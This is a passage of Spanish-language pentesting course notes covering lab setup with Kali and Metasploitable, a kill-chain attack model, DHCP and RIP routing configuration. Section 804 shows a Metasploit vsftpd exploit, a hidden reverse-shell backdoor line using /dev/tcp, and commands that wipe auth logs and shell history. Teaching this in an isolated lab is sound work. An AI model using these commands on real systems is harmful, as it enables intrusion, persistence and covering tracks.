





| **Inicio**         | **atrás 10**                                  | **Siguiente 12**                            |
| ------------------ | --------------------------------------------- | ------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_10_Seguridad_de_Redes_On_Premise.md) | [⏩](./7_12_Fundamentos_de_Criptografia.md) |

---

## **Índice**

| Temario                                                                                                                                                              |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [803. Laboratorios para el curso](#803-laboratorios-para-el-curso)                                                                                                   |
| [804. Modelo de ataques](#804-modelo-de-ataques)                                                                                                                     |
| [805. Direccionamiento dinámico](#805-direccionamiento-dinámico)                                                                                                     |
| [806. Protocolos de enrutamiento dinámico](#806-protocolos-de-enrutamiento-dinámico)                                                                                 |
| [807. Configuración de protocolos de enrutamiento dinámico](#807-configuración-de-protocolos-de-enrutamiento-dinámico)                                               |
| [808. Configuración de enrutamiento dinámico](#808-configuración-de-enrutamiento-dinámico)                                                                           |
| [809. Configuración de segundo enrutador y verificación de tablas de enrutamiento](#809-configuración-de-segundo-enrutador-y-verificación-de-tablas-de-enrutamiento) |
| [810. Configuración de NAT y redireccionamiento](#810-configuración-de-nat-y-redireccionamiento)                                                                     |
| [811. Análisis de DNS](#811-análisis-de-dns)                                                                                                                         |
| [812. ARP Poisoning](#812-arp-poisoning)                                                                                                                             |
| [813. DNS Spoofing](#813-dns-spoofing)                                                                                                                               |
| [814. DHCP Spoofing](#814-dhcp-spoofing)                                                                                                                             |
| [815. Encapsulado de paquetes con Scapy](#815-encapsulado-de-paquetes-con-scapy)                                                                                     |
| [816. Ataques a protocolos de enrutamiento](#816-ataques-a-protocolos-de-enrutamiento)                                                                               |
| [817. Verificación de ataques a protocolos de enrutamiento](#817-verificación-de-ataques-a-protocolos-de-enrutamiento)                                               |
| [818. Análisis de NAT](#818-análisis-de-nat)                                                                                                                         |
| [819. Ataque NAT Bypass](#819-ataque-nat-bypass)                                                                                                                     |
| [820. Introducción a la Ingeniería Social](#820-introducción-a-la-ingeniería-social)                                                                                 |
| [821. Credential Harvesting](#821-credential-harvesting)                                                                                                             |
| [822. Preparación de ataques con SET y Metasploit](#822-preparación-de-ataques-con-set-y-metasploit)                                                                 |
| [823. Ejecución de ataques con SET y Metasploit](#823-ejecución-de-ataques-con-set-y-metasploit)                                                                     |
| [824. Modelo de un ataque DoS](#824-modelo-de-un-ataque-dos)                                                                                                         |
| [825. Ataques ICMP y SYN Flood](#825-ataques-icmp-y-syn-flood)                                                                                                       |
| [826. Ataques Smurf y DoS con Metasploit](#826-ataques-smurf-y-dos-con-metasploit)                                                                                   |
| [827. Ataques con LOIC](#827-ataques-con-loic)                                                                                                                       |
| [828. Pentesting con DoS](#828-pentesting-con-dos)                                                                                                                   |
| [829. Configuración de entorno para auditoría WiFi](#829-configuración-de-entorno-para-auditoría-wifi)                                                               |
| [830. Monitoreo de redes WiFi](#830-monitoreo-de-redes-wifi)                                                                                                         |
| [831. Ataque a WEP](#831-ataque-a-wep)                                                                                                                               |
| [832. Ataque a WPA](#832-ataque-a-wpa)                                                                                                                               |
| [833. Elaboración de informe](#833-elaboración-de-informe)                                                                                                           |

|

# **Pentesting a Redes**

## **803. Laboratorios para el curso**

### 🔐 ¿Qué es un Laboratorio de Pentesting?

Un laboratorio de **Pentesting a redes** es un entorno controlado que simula una red real, diseñado para practicar técnicas de hacking ético. En él puedes:

- Simular ataques de red (sniffing, MITM, ARP spoofing, escaneo de puertos, etc.)
- Analizar vulnerabilidades
- Capturar tráfico
- Hacer pruebas sin afectar redes reales

---

### 🧰 Herramientas y Entornos que se Usan

#### 🔧 Herramientas esenciales

1. **Máquinas virtuales (VMs):**

   - **Kali Linux** (atacante)
   - **Windows 10/11**, **Windows Server** (víctimas)
   - **Metasploitable 2 o 3** (víctima vulnerable)
   - **OWASP Broken Web Apps** (opcional)

2. **Virtualizador**:

   - **VirtualBox** (gratuito) o **VMware Workstation/Player**

3. **Red interna/NAT**: Para que las máquinas estén en una red simulada y no puedan afectar tu red real.

---

### 🏗️ Cómo Instalar el Laboratorio Paso a Paso

#### 1️⃣ Instalar VirtualBox

1. Descarga desde: [https://www.virtualbox.org](https://www.virtualbox.org)
2. Instala normalmente como cualquier programa.

---

#### 2️⃣ Descargar las imágenes de las máquinas virtuales

- **Kali Linux**:

  👉 [https://www.kali.org/get-kali/#kali-virtual-machines](https://www.kali.org/get-kali/#kali-virtual-machines)
  (elige la versión VirtualBox)

- **Metasploitable 2**:

  👉 [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

- **Windows (opcional)**:

  Puedes usar una versión de evaluación:
  👉 [https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

#### 3️⃣ Importar las máquinas virtuales

En VirtualBox:

1. `Archivo` > `Importar servicio virtualizado`
2. Selecciona el archivo `.ova` (por ejemplo, el de Kali o Metasploitable)
3. Siguiente > Aceptar > Importar

Hazlo con cada VM que quieras usar.

---

#### 4️⃣ Configurar la red

1. Abre VirtualBox.
2. Ve a `Archivo` > `Configuración` > `Red` > `Redes solo-anfitrión` o crea una red NAT.
3. Asegúrate de que todas las máquinas usen **la misma red interna** o “adaptador solo-anfitrión”.

Ejemplo:

- En cada VM > `Configuración` > `Red`:

  - Activar adaptador
  - Tipo: **Red Interna**
  - Nombre: por ejemplo: `LabPentest`

Así todas estarán en la misma red aislada.

---

#### 5️⃣ Verifica que las máquinas se comuniquen

En Kali, abre una terminal y escribe:

```bash
ping 192.168.56.101
```

(Suponiendo que esa sea la IP de Metasploitable)

Debe responder con paquetes `icmp`, como:

```
64 bytes from 192.168.56.101: icmp_seq=1 ttl=64 time=0.476 ms
```

---

### ✅ Ejemplo completo: Escaneo de red con Kali y Metasploitable

#### 🔎 Objetivo: Escanear puertos abiertos en Metasploitable desde Kali

1. Asegúrate de que ambas máquinas estén encendidas y en la misma red.
2. En Kali, abre una terminal.

Primero identifica la IP de Metasploitable:

```bash
ip a
```

3. Escanea la IP con Nmap:

```bash
nmap -sS -sV 192.168.56.101
```

Esto hará:

- `-sS`: escaneo TCP SYN
- `-sV`: detecta versiones de servicios

#### 🧾 Resultado esperado (ejemplo):

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
```

¡Ya tienes servicios identificados para hacer pruebas!

---

### 🧪 Retos que puedes hacer en tu laboratorio

1. Escaneo completo de puertos y servicios
2. Ataques de fuerza bruta a FTP, SSH
3. Exploits con Metasploit
4. Sniffing de tráfico con Wireshark
5. MITM con Ettercap o ARP spoofing

---

### 🎁 Bonus: Laboratorios listos para usar

También puedes usar:

- [TryHackMe](https://tryhackme.com) — Tiene laboratorios en la nube.
- [Hack The Box](https://www.hackthebox.com) — Para retos avanzados.
- [VulnHub](https://www.vulnhub.com) — VMs vulnerables para practicar.

---

### 📌 Conclusión

Un laboratorio de Pentesting es esencial para aprender de forma práctica y segura. Puedes montarlo fácilmente con VirtualBox, Kali y Metasploitable. Te permite practicar muchas técnicas reales sin riesgos legales o técnicos.

---

[🔼](#índice)

---

## **804. Modelo de ataques**

### 🧠 ¿Qué es un Modelo de Ataques?

Un **modelo de ataques** es una forma estructurada de describir **cómo un atacante real podría comprometer un sistema o red**. Es un **esquema lógico y organizado** que nos ayuda a:

- Entender el **comportamiento del atacante**
- Identificar las **vulnerabilidades**
- Evaluar los **impactos** potenciales
- Diseñar **defensas más efectivas**

---

### 📊 Tipos de modelos de ataque más comunes

#### 1. 🔄 Modelo en fases (Kill Chain)

Basado en el ciclo de vida del ataque. Cada paso refleja una acción del atacante.

1. **Reconocimiento (Recon)**: Recolectar información del objetivo (IPs, dominios).
2. **Escaneo (Scanning)**: Identificar servicios, puertos, sistemas operativos.
3. **Acceso (Gaining Access)**: Explotar vulnerabilidades para entrar.
4. **Mantener el acceso (Persistence)**: Crear puertas traseras.
5. **Escalada de privilegios**: Obtener más poder (admin/root).
6. **Cubrir rastros**: Borrar logs, esconder malware.

📌 Este modelo es ideal para simulaciones en laboratorios de Pentesting.

---

#### 2. 🧬 MITRE ATT\&CK

Un modelo más detallado, con **técnicas y tácticas** específicas usadas por atacantes reales.

- Tácticas (objetivo del atacante): Ej: "Acceso inicial", "Evasión de defensa"
- Técnicas (cómo lo hacen): Ej: "Phishing", "Explotación de servicios remotos"

👉 Sitio oficial: [https://attack.mitre.org/](https://attack.mitre.org/)

---

#### 3. 🏰 STRIDE (Microsoft)

Modelo usado en análisis de amenazas:

| Letra | Significado             | Tipo de amenaza           |
| ----- | ----------------------- | ------------------------- |
| S     | Spoofing                | Suplantación de identidad |
| T     | Tampering               | Alteración de datos       |
| R     | Repudiation             | Negación de acciones      |
| I     | Information Disclosure  | Fuga de información       |
| D     | Denial of Service       | Ataques de disponibilidad |
| E     | Elevation of Privileges | Subir de permisos         |

---

### 🧰 ¿Cómo se instala o simula un modelo de ataque?

#### Requisitos:

- **VirtualBox** o VMware
- VMs: **Kali Linux (atacante)** + **Metasploitable 2 o Windows (víctima)**
- Red interna: ambas máquinas conectadas entre sí pero aisladas

---

### 🧪 Ejemplo práctico de un Modelo de Ataque usando el modelo de Kill Chain

#### 🔍 Fase 1: Reconocimiento

En Kali, usamos `whois`, `nslookup`, o `nmap` para recolectar información:

```bash
nmap -sP 192.168.56.0/24
```

Esto muestra qué IPs están activas en tu red simulada.

---

#### 🔎 Fase 2: Escaneo

Identificamos puertos abiertos y servicios:

```bash
nmap -sS -sV 192.168.56.101
```

Resultado ejemplo:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 4.7p1
```

---

#### 🎯 Fase 3: Gaining Access

Usamos Metasploit para explotar una vulnerabilidad conocida en FTP:

```bash
msfconsole
```

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

💥 ¡Acceso root conseguido!

---

#### 🔒 Fase 4: Mantener Acceso

Creamos una puerta trasera (backdoor):

```bash
echo "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1" >> /tmp/.backdoor.sh
```

Y la configuramos para ejecutarse automáticamente.

---

#### 🧗 Fase 5: Escalada de Privilegios

Si accedimos como usuario, usamos herramientas como `linpeas.sh` o `sudo -l` para ver vulnerabilidades.

---

#### 🧹 Fase 6: Cubrir Huellas

Limpiamos logs:

```bash
echo > /var/log/auth.log
```

O borramos historial:

```bash
history -c
```

---

### ✅ Resultado Final

Has simulado un ataque real paso a paso, desde reconocimiento hasta ocultamiento, siguiendo el **modelo Kill Chain**. Este enfoque te permite estudiar cada etapa con profundidad y reforzar tus habilidades de análisis, defensa y ataque.

---

### 🧪 BONUS: Actividad para tu laboratorio

Crea una tabla como esta para documentar cada paso:

| Fase           | Herramienta usada | Comando / Técnica          | Resultado                      |
| -------------- | ----------------- | -------------------------- | ------------------------------ |
| Reconocimiento | Nmap              | `nmap -sP 192.168.56.0/24` | IP de Metasploitable detectada |
| Escaneo        | Nmap              | `nmap -sS -sV`             | Puertos 21, 22 abiertos        |
| Acceso         | Metasploit        | Exploit vsftpd 2.3.4       | Acceso root                    |
| Persistencia   | Bash              | Script de backdoor         | Puerta trasera instalada       |
| Escalada       | LinPEAS           | ./linpeas.sh               | Permisos sudo detectados       |
| Borrar huellas | Bash              | `history -c`               | Rastro eliminado               |

---

[🔼](#índice)

---

## **805. Direccionamiento dinámico**

### 📡 ¿Qué es el Direccionamiento Dinámico?

El **direccionamiento dinámico** es un método en el que las computadoras de una red reciben su **dirección IP automáticamente**, sin necesidad de que el administrador la configure manualmente.

Este proceso lo hace un **servidor DHCP (Dynamic Host Configuration Protocol)**.

---

### 🧠 ¿Cómo funciona?

1. Una computadora (cliente) se conecta a la red.
2. Envía una solicitud **DHCP Discover** preguntando: "¿Alguien puede darme una IP?"
3. El servidor DHCP responde con una oferta de IP.
4. El cliente acepta y el servidor le asigna la IP por un tiempo (lease time).

---

### 📦 ¿Qué datos entrega un servidor DHCP?

- IP del cliente
- Máscara de subred
- Puerta de enlace (gateway)
- Servidor DNS
- Tiempo de concesión

---

### 🖥️ ¿Dónde se usa el direccionamiento dinámico?

- En oficinas y empresas: para que los dispositivos obtengan IPs automáticamente.
- En casa: tu router es el servidor DHCP.
- En laboratorios: para simular redes reales sin asignar IPs manualmente.

---

### 🛠️ ¿Cómo se instala y configura un servidor DHCP?

#### ✅ Opción 1: En Linux (Ubuntu o Debian)

Vamos a instalar un servidor DHCP con `isc-dhcp-server`.

##### 🔧 Paso 1: Instalar el servidor DHCP

```bash
sudo apt update
sudo apt install isc-dhcp-server
```

##### 🔧 Paso 2: Configurar el archivo DHCP

Editar el archivo de configuración:

```bash
sudo nano /etc/dhcp/dhcpd.conf
```

Ejemplo básico de configuración:

```conf
subnet 192.168.10.0 netmask 255.255.255.0 {
  range 192.168.10.100 192.168.10.200;
  option routers 192.168.10.1;
  option domain-name-servers 8.8.8.8;
  default-lease-time 600;
  max-lease-time 7200;
}
```

##### 🔧 Paso 3: Configurar la interfaz de red

Editar:

```bash
sudo nano /etc/default/isc-dhcp-server
```

Agrega la interfaz que se usará (por ejemplo, `eth1`):

```bash
INTERFACESv4="eth1"
```

##### 🔧 Paso 4: Reiniciar el servicio

```bash
sudo systemctl restart isc-dhcp-server
sudo systemctl status isc-dhcp-server
```

---

#### ✅ Opción 2: En un router doméstico o un laboratorio virtual

Si usas un router virtual o físico:

- Entra a su panel de configuración (normalmente en 192.168.1.1).
- Busca la sección **DHCP Server**.
- Habilítalo y define un rango de direcciones (por ejemplo, 192.168.1.100 a 192.168.1.200).

---

### 🧪 Ejemplo práctico completo

#### 🎯 Objetivo: Configurar un servidor DHCP en Kali Linux y que una máquina Windows reciba IP dinámica

---

#### 🧱 Requisitos

- Kali Linux (servidor DHCP)
- Windows 10 (cliente)
- VirtualBox o VMware
- Red interna (ambas máquinas en la misma red: `red_lab_dhcp`)

---

#### ⚙️ Paso a paso

##### 📌 En Kali Linux:

1. Instala el servidor:

```bash
sudo apt install isc-dhcp-server
```

2. Edita el archivo `/etc/dhcp/dhcpd.conf`:

```conf
subnet 192.168.50.0 netmask 255.255.255.0 {
  range 192.168.50.100 192.168.50.150;
  option routers 192.168.50.1;
  option domain-name-servers 8.8.8.8;
  default-lease-time 600;
  max-lease-time 7200;
}
```

3. Asigna la IP estática a Kali en la interfaz `eth1` (la de la red interna):

```bash
sudo ip addr add 192.168.50.1/24 dev eth1
sudo ip link set eth1 up
```

4. Edita el archivo `/etc/default/isc-dhcp-server`:

```bash
INTERFACESv4="eth1"
```

5. Reinicia el servicio:

```bash
sudo systemctl restart isc-dhcp-server
```

---

##### 🖥️ En Windows 10:

1. Asegúrate de que esté conectada a la red `red_lab_dhcp` (la misma que Kali).
2. Ve a `Configuración de red` > `Adaptador de red`.
3. Verifica que esté configurada en “Obtener IP automáticamente”.
4. Ejecuta `cmd` > `ipconfig` y deberías ver algo así:

```
Adaptador Ethernet:
   Dirección IPv4 . . . . . . . . . . : 192.168.50.101
   Máscara de subred . . . . . . . . .: 255.255.255.0
   Puerta de enlace predeterminada . .: 192.168.50.1
```

✅ ¡Tu cliente ya recibió IP dinámica desde el servidor Kali!

---

### 🧠 ¿Por qué es importante el direccionamiento dinámico?

- Escalable: no necesitas configurar cientos de IPs manualmente.
- Automático: menos errores humanos.
- Flexible: ideal para redes grandes, laboratorios, WiFi, oficinas.

---

### 📌 Conclusión

El **direccionamiento dinámico (DHCP)** permite automatizar la asignación de IPs, facilitando la administración de redes. Con herramientas como `isc-dhcp-server` puedes montar tu propio servidor en Linux para simular redes reales y practicar administración o seguridad.

---

[🔼](#índice)

---

## **806. Protocolos de enrutamiento dinámico**

### 🌐 ¿Qué son los Protocolos de Enrutamiento Dinámico?

Un **protocolo de enrutamiento dinámico** permite que los **routers aprendan automáticamente las rutas hacia otras redes**, sin que el administrador tenga que ingresar esas rutas a mano.

> 📌 Son muy útiles en redes grandes, que cambian constantemente o que necesitan adaptación automática.

---

### 📦 ¿Cómo funciona el enrutamiento dinámico?

1. Cada router se comunica con los routers vecinos.
2. Comparte la información de las rutas que conoce.
3. Cada router construye su propia **tabla de enrutamiento**.
4. Si cambia la red (un router cae, una red se añade), los protocolos actualizan las rutas automáticamente.

---

### 🧠 Ventajas del enrutamiento dinámico

- ⚡ Se adapta a cambios en la red automáticamente.
- ✅ Reduce errores de configuración.
- 📊 Escalable para redes grandes.
- 🔁 Detecta y evita rutas caídas.

---

### 🧭 Tipos de Protocolos de Enrutamiento Dinámico

Los más comunes se dividen en dos grupos:

| Tipo                       | Protocolos  | Características principales                     |
| -------------------------- | ----------- | ----------------------------------------------- |
| **Vector distancia**       | RIP, IGRP   | Simples, usan "saltos" como métrica             |
| **Estado de enlace**       | OSPF, IS-IS | Más complejos, rápidos, usan costo como métrica |
| **Híbridos**               | EIGRP       | Combina lo mejor de ambos                       |
| **Exteriores (entre ISP)** | BGP         | Usado en Internet (entre organizaciones)        |

---

### 🛠️ ¿Cómo se instalan y configuran?

Vamos a usar **GNS3** o **Packet Tracer** para simular redes con routers, o incluso **máquinas Linux con software de enrutamiento como `Quagga` o `FRRouting`**.

---

### ✅ OPCIÓN 1: Usando **Cisco Packet Tracer** (fácil, ideal para estudiantes)

#### 📥 Paso 1: Instalar Packet Tracer

- Descargar desde: [https://skillsforall.com](https://skillsforall.com)
- Requiere registro gratuito.

---

#### 📦 Paso 2: Crear una topología

1. Agrega **2 o más routers**, **switches**, y **PCs**.
2. Conéctalos con cables apropiados.
3. Asigna direcciones IP a las interfaces.
4. Habilita las interfaces con `no shutdown`.

---

### 🧪 Ejemplo completo: Enrutamiento dinámico con RIP (Routing Information Protocol)

#### 🎯 Objetivo:

Conectar dos redes usando **RIP** para que los PCs puedan comunicarse sin usar rutas estáticas.

---

#### 🔧 Topología:

```
PC1 --- R1 --- R2 --- PC2

Red 1: 192.168.1.0/24
Red 2: 10.0.0.0/24
```

---

#### 📌 Paso a paso en cada router (en Cisco Packet Tracer):

##### 🔹 En R1:

```plaintext
Router> enable
Router# configure terminal
Router(config)# interface fastEthernet0/0
Router(config-if)# ip address 192.168.1.1 255.255.255.0
Router(config-if)# no shutdown

Router(config)# interface fastEthernet0/1
Router(config-if)# ip address 192.168.2.1 255.255.255.0
Router(config-if)# no shutdown

Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# network 192.168.1.0
Router(config-router)# network 192.168.2.0
Router(config-router)# no auto-summary
```

---

##### 🔹 En R2:

```plaintext
Router> enable
Router# configure terminal
Router(config)# interface fastEthernet0/0
Router(config-if)# ip address 192.168.2.2 255.255.255.0
Router(config-if)# no shutdown

Router(config)# interface fastEthernet0/1
Router(config-if)# ip address 10.0.0.1 255.255.255.0
Router(config-if)# no shutdown

Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# network 192.168.2.0
Router(config-router)# network 10.0.0.0
Router(config-router)# no auto-summary
```

---

##### 🔹 En los PCs

- PC1: IP 192.168.1.2, Gateway 192.168.1.1
- PC2: IP 10.0.0.2, Gateway 10.0.0.1

---

#### 🔁 Verificar conectividad

1. Desde PC1, haz `ping 10.0.0.2`.
2. Debería responder. Esto demuestra que **los routers se están comunicando por RIP y han aprendido las rutas automáticamente**.

---

### ✅ OPCIÓN 2: En Linux (más avanzado)

Puedes usar `FRRouting` o `Quagga` para implementar protocolos como **RIP**, **OSPF** u **BGP**.

Ejemplo en Debian/Ubuntu:

```bash
sudo apt install frr frr-ripd
```

Activar el daemon RIP:

```bash
sudo nano /etc/frr/daemons
# Cambia: ripd=yes
```

Configurar en `/etc/frr/frr.conf` o con comandos vtysh:

```bash
sudo vtysh

conf t
router rip
 network 192.168.1.0/24
 network 10.0.0.0/24
```

---

### 🧠 Diferencias clave entre RIP y OSPF

| Característica | RIP              | OSPF                   |
| -------------- | ---------------- | ---------------------- |
| Tipo           | Vector distancia | Estado de enlace       |
| Métrica        | Número de saltos | Costo (ancho de banda) |
| Convergencia   | Lenta            | Rápida                 |
| Escalabilidad  | Baja             | Alta                   |
| Máx. saltos    | 15               | Ilimitado              |

---

### 📌 Conclusión

Los **protocolos de enrutamiento dinámico** permiten que los routers intercambien información de forma automática. Son ideales para redes medianas o grandes, donde las rutas cambian o se agregan nodos con frecuencia. Con herramientas como **Packet Tracer** o **FRRouting en Linux**, puedes simular estos protocolos y practicar en tu laboratorio.

---

[🔼](#índice)

---

## **807. Configuración de protocolos de enrutamiento dinámico**

### 🌐 ¿Qué es la Configuración de Protocolos de Enrutamiento Dinámico?

Configurar un **protocolo de enrutamiento dinámico** significa enseñar a un **router** a **aprender y compartir rutas automáticamente con otros routers**, sin necesidad de ingresar rutas estáticas a mano.

Esto se usa mucho en redes medianas y grandes porque:

✅ Se adapta automáticamente

✅ Es más fácil de mantener

✅ Permite la detección rápida de fallas en la red

---

### 🔄 ¿Qué protocolos se pueden configurar?

Los más usados son:

| Protocolo | Tipo             | Fácil de configurar | Características clave                    |
| --------- | ---------------- | ------------------- | ---------------------------------------- |
| **RIP**   | Vector Distancia | ✅ Sí               | Métrica: saltos, simple, hasta 15 saltos |
| **OSPF**  | Estado de Enlace | ❌ Más complejo     | Métrica: costo (ancho de banda), rápido  |
| **EIGRP** | Híbrido (Cisco)  | ✅ Medio            | Métricas compuestas, muy eficiente       |

---

### 🛠️ ¿Dónde se puede configurar?

#### 1. ✅ **Simuladores de red** (fácil para practicar):

- **Cisco Packet Tracer**
- **GNS3**

#### 2. ✅ **Routers reales Cisco / MikroTik**

#### 3. ✅ **Linux** con software de enrutamiento (FRRouting, Quagga)

---

### 📦 ¿Qué se necesita para el laboratorio?

- 2 routers virtuales (R1 y R2)
- 2 PCs (PC1 y PC2)
- Redes conectadas:

  - PC1 — R1 — R2 — PC2

- Direccionamiento IP:

  - Red A: 192.168.1.0/24 (PC1 a R1)
  - Red B: 10.0.0.0/24 (PC2 a R2)
  - Red entre R1 y R2: 192.168.2.0/30

---

### ⚙️ Configuración paso a paso: RIP

#### 💡 ¿Por qué RIP?

Porque es el **más fácil de configurar** y excelente para entender el concepto de enrutamiento dinámico.

---

### 📥 PASO 1: Preparar la topología en Cisco Packet Tracer

#### Topología:

```
[PC1] — [R1] — [R2] — [PC2]

PC1: 192.168.1.2/24         PC2: 10.0.0.2/24
R1: G0/0 – 192.168.1.1       R2: G0/1 – 10.0.0.1
    G0/1 – 192.168.2.1           G0/0 – 192.168.2.2
```

---

### 📌 PASO 2: Configurar IPs en R1 y R2

#### En R1:

```plaintext
Router> enable
Router# configure terminal
Router(config)# interface gigabitEthernet0/0
Router(config-if)# ip address 192.168.1.1 255.255.255.0
Router(config-if)# no shutdown

Router(config)# interface gigabitEthernet0/1
Router(config-if)# ip address 192.168.2.1 255.255.255.252
Router(config-if)# no shutdown
```

#### En R2:

```plaintext
Router> enable
Router# configure terminal
Router(config)# interface gigabitEthernet0/0
Router(config-if)# ip address 192.168.2.2 255.255.255.252
Router(config-if)# no shutdown

Router(config)# interface gigabitEthernet0/1
Router(config-if)# ip address 10.0.0.1 255.255.255.0
Router(config-if)# no shutdown
```

---

### 📌 PASO 3: Configurar RIP en R1 y R2

#### En R1:

```plaintext
Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# no auto-summary
Router(config-router)# network 192.168.1.0
Router(config-router)# network 192.168.2.0
```

#### En R2:

```plaintext
Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# no auto-summary
Router(config-router)# network 192.168.2.0
Router(config-router)# network 10.0.0.0
```

---

### 📌 PASO 4: Configurar las PCs

- **PC1:**

  - IP: 192.168.1.2
  - Máscara: 255.255.255.0
  - Gateway: 192.168.1.1

- **PC2:**

  - IP: 10.0.0.2
  - Máscara: 255.255.255.0
  - Gateway: 10.0.0.1

---

### 🧪 PASO 5: Probar conectividad

Desde **PC1**, abre el terminal y escribe:

```bash
ping 10.0.0.2
```

Resultado esperado:

```
Reply from 10.0.0.2: bytes=32 time<1ms TTL=255
```

